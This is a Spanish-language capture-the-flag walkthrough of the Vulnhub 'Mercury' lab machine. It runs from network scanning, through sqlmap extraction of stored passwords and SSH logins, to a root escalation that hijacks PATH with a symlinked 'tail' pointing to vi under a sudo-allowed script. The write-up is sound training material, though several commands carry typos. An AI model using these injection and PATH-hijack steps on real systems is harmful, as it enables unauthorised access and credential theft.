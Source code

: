 # Informe vm Mercury-Vulnhub
A continuación, el walkthrough de la máquina virtual Mercury, del grupo Planets de Vulnhub, explicado paso a paso.
## Fase de reconocimiento 

Primero de todo, escaneamos la red local en busca de direcciones IP. Para ello usaremos el comando arp-scan sobre la interfaz de red en la que estemos trabajando: <br><br>
```
arp-scan -I eth3 --localnet --ignoredups
```
![Captura de pantalla 2024-01-23 180113](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/7410790a-b735-47ee-a640-2f05364c6852)

<br>
En mi caso, la IP de la máquina víctima es la 10.0.2.5. Le enviaremos un paquete para comprobar que está activa: <br><br>

```
ping -c1 10.0.2.5
```
<br>
Si se ha recibido el paquete podemos confirmar que nuestra máquina está activa.<br><br>

![Captura de pantalla 2024-01-23 180235](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/d0ec0854-270f-4e5f-af51-eca55140a64f)

A continuación, realizaremos un escaneo de puertos, buscando cuales estan abiertos con nmap <br><br>
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.0.2.5 -oG allports
```
![Captura de pantalla 2024-01-23 183345](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/e4719d30-0384-4c9b-bff6-e6f762df49e6)
<br>

Como podemos comprobar, tiene abiertos los puertos 22 y 8080, que corresponden a ssh y http-proxy respectivamente. <br>
## Conexion e investigación de la máquina
Lo siguiente que haremos será conectarnos a la IP a través del puerto 8080 en un navegador. <br><br>

![Captura de pantalla 2024-01-23 183834](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/2415de39-a745-471f-89f9-276249a71a6f)
<br><br>

Vemos que nos aparece un mensaje, así que seguiremos investigando esta web. <br><br>

Lo siguiente que deberíamos hacer sería lanzar un Gobuster en busca de directorios en el servidor de la web. Pero antes de ello, iremos directamente a ver el robots.txt, a ver si ahí encontramos algo y nos podemos ahorrar el Gobuster. <br><br>

![Captura de pantalla 2024-01-23 185208](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/ad4a1645-07c3-460c-92e1-3267378ba98e)
<br><br>

Probaremos de usar el asterisco como directorio: <br><br>

![Captura de pantalla 2024-01-24 092445](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/b00d3310-a9cd-4f74-9aab-786979fe1ec2)
<br><br>

De lo que vemos en la web, lo más interesante son los 3 puntos que aparecen. Y si nos fijamos en el punto 3, tiene pinta de ser un directorio. Probaremos a ver. <br><br>
![Captura de pantalla 2024-01-24 093452](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/5390e909-9cb6-4d86-bc4e-cdaba241cc26)
<br><br>
Y llegamos a lo que aprece ser una web en desarrollo con 2 enlaces. El primero te lleva a datos sobre Mercurio, que puedes ir cambiando si cambias el número de la URL. Hay hasta 8 datos. El segundo enlace es una lista de cosas que hacer para la web. <br>
El siguiente paso será usar una herramienta llamada SQLmap, para que liste bbdd.<br><br>
```
sqlmap -u http.//10.0.2.5:8080/mercuryfacts/ --dbs --batch
```
![Imagen2](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/78754d50-e547-4a22-a04c-b489aba5320e)
<br><br>

El comando nos buscará posibles vulnerabilidades sql en el servidor de la web y también nos listará las bases de datos disponibles en dicho servidor. <br><br>
![Imagen3](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/078871b4-79f8-408e-ad58-2c5eb3a9236f)
<br><br>

Estas son las bases de datos encontradas en el servidor: information_schema y mercury. <br>
Una vez encontradas las bases de datos, explotaremos la que nos interesa, en nuestro caso, la mercury. A continuación, seguiremos usando sqlmap pero esta vez para extraer información de la base de datos mercury: <br><br>
```
sqlmap -u http.//10.0.2.5:8080/mercuryfacts/ -D mercury --dump-all --batch
```
![Imagen4](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/a2bc1efa-acff-4bfa-b168-e24555a23e5b)
<br><br>

Y hemos obtenido una lista de usuarios con sus respectivas contraseñas. Sabiendo que el puerto 22, correspondiente a ssh, está abierto, vamos a intentar explotar esta vulnerabilidad. Tras empezar a probar con cada usuario y contraseña, hemos tenido éxito con el usuario webmaster. <br><br>
```
ssh webmaster@10.0.2.5
```

![Imagen5](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/9c681734-201f-43dc-9d72-ecabcfb608dd)
<br><br>

Como vemos, tenemos acceso con el usuario webmaster. <br><br>

![Imagen6](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/d0979e8d-b046-444a-be3f-3c99fbb649f4)
<br><br>

A continuación, como hemos accedido como webmaster, listaremos los archivos y directorios en busca de algo interesante: <br><br>

![Imagen7](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/fcc207a5-4251-46bc-af88-830e929f3952)
<br><br>

Y hemos encontrado una flag. A continuación, seguiremos indagando en esta máquina en busca de más cosas. <br><br>
Veamos los derechos y privilegios del usuario con el que hemos accedido. <br><br>

![Imagen8](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/f328f7c3-e689-4e3b-b638-74004a3d080c)
<br><br>

Al parecer, el usuario con el que hemos accedido no tiene privilegios de root. Después de comprobar esto, veamos el directorio que aparecía además de la flag que hemos encontrado: <br><br>

![Imagen9](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/9a38498e-ec54-4b02-bb44-492a12568a0b)
<br><br>

Veamos qué contiene el archivo notes.txt. <br><br>

![Imagen10](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/6c6e1cb2-4c8c-4a3e-bec8-6b1e1d268379)
<br><br>
Parece que son 2 cadenas de caracteres codificados, seguramente en base 64. Vamos a intentar traducirlos. <br><br> 
```
echo "bWVyY3VyewlzdGhlc2l6ZW9MC4wNTZFYXJ0aHMK" | base64 -d mercuryisthesizeof0.056Earths
```

![Imagen11](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/64bc5d5e-3a73-46fb-bedf-c8d108845b54)
<br><br>

Tras decodificarla podemos comprobar que era la contraseña para el usuario webmaster. Lo que nos indica que probablemente la otra sea la contraseña del linuxmaster. Decodifiquémosla entonces: <br><br>
```
echo "bWVyYзVyew1lYW5kaWFtZXRlcmlzNDg4MGttCg= base64 -d mercurymeandiameteris4880km
```

![Imagen12](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/9d2d07cd-649c-4f1a-8b16-b11cdb578b49)
<br><br>

Efectivamente, obtenemos la contraseña de linuxmaster. A continuación, entraremos con estas credenciales. <br><br>
```
ssh linuxmaster@10.0.2.5
```
![Imagen13](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/640c4874-100a-4e88-9bc9-ea340c384aec)
<br><br>

Comprobamos qué derechos y privilegios tiene este usuario: <br><br>

![Imagen14](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/178edaf7-e645-4ee0-8c14-fa0be345860a)
<br><br>

Parece ser que tiene privilegios de root sobre /usr/bin/check_syslog.sh. Realizaremos a continuación una escalada de privilegios para obtener acceso como root. <br><br>
```
cat /usr/bin/check_syslog.sh
```
```
tail -n 10 /var/log/syslog
```
```
ln -s /usr/bin/vi tail
```
```
export PATH=$(pwd):$PATH
```
```
sudo --preserve-env=PATH /usr(bin/check_syslog.sh
```

![Imagen15](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/d097a58d-c8f4-47a4-b94b-2d34d11f1741)
<br><br>

A continuación escribiríamos lo siguiente: <br>
```
:!/bin/bash
```
<br>
Y ya tendríamos acceso como root y podríamos encontrar la segunda y útlima flag de esta máquina: <br><br>

![Imagen16](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/0dafd5bd-445a-4c56-924d-c3eb5eb658cd) 
<br>

![Imagen17](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/14a1c3d7-f12a-402c-aeb7-b37a99bcc444)







